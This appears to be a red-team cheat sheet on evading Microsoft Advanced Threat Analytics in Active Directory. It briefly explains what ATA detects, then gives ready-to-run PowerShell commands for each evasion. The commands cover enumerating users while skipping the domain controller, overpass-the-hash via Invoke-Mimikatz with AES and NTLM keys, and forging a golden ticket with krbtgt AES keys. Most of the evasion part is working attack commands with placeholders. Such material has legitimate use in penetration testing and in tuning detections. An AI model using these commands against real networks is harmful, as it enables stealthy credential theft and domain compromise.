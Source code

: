 # Microsoft ATA (Advanced Threat Analytics).
---
# Navigation
- **[What's ATA](#What's%20ATA)**
- **[Useful for detecting](#Useful%20for%20detecting)**
- **[Bypass user hunting detection](#Bypass%20user%20hunting%20detection)**
- **[Bypass Overpass-the-hash detection](#Bypass%20Overpass-the-hash%20detection)**
- **[Bypass Golden ticket detection](#Bypass%20Golden%20ticket%20detection)**

---
# What's ATA?
**Advanced Threat Analytics** (ATA) is an on-premises platform that helps protect your enterprise from multiple types of advanced targeted cyber attacks and insider threats.
- Traffic destined for Domain Controllers is mirrored to ATA sensors and a user activity profile is build over time - use of computers,Credentials,log on machines ..etc
- Collects Event `4776` (The DC attempted to validate the credentials for an account) to detect credential replay attacks.
- Can detect behavior anomalies.
## Useful for detecting 
- **Recon**: Account enum, Netsession enum.
- **Compromised Credentials Attacks**: Brute-Force, High privilege account/service account exposed in clear text, Honey token, unusual protocol (NTLM and kerberoas).
- Credential/Hash/Ticket Replay attacks.

## Bypass user hunting detection
To bypass `Reconnaissance using SMB session enumeration` make sure to exclude the Domain Controller from the enumeration.
```powershell
#Get list of computers
Get-NetComputer
```

```powershell
#Enumerate Users (Powerview module)
Invoke-UserHunter -ComputerFile <ListOfComputersWithoutDC>
```
## Bypass Overpass-the-hash detection
We need to make the encryption type as the one normally used.
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /aes256:<aes256> /ntlm:<NTLM> /aes128:<aes128>"'
```
> 1. Putting all `AES256`,`AES128`,`NTLM(RC4)` together reduces chances of detection.
> 2. AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with KB2871997, in this case you can avoid NTLM hash.

## Bypass Golden ticket detection
We need to make the encryption type as the one normally used.
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:<User> /domain:<Domain> /sid:<SID> /aes256:<aes256keysofkrbtgt> /id:500 /groups:513 /ptt"'
```
> A Golden ticket using AES keys can be generated from any machine unlike restrictions in case of Over-PTH.
